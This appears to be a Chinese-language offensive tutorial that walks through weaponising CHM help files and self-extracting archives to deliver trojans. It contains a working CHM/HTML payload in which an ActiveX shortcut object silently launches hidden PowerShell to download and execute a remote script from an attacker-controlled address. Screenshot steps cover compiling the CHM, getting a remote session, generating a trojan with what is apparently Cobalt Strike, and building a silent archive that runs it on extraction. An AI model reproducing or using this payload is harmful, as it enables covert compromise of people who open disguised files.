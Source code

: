 ```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.100:81/a'))">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

- 使用EasyCHM编译

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103181650.png)

- 原有模版CMD

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103181750.png)

- ps上线

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103182926.png)

## 自解压

- 使用CS生成木马

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103183747.png)

- 创建自解压文件

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103184022.png)

- 高级自解压选项

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103184233.png)

- 解压路径-绝对路径

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103184310.png)

- 提取后运行

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103185602.png)

- 静默模式

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103184559.png)
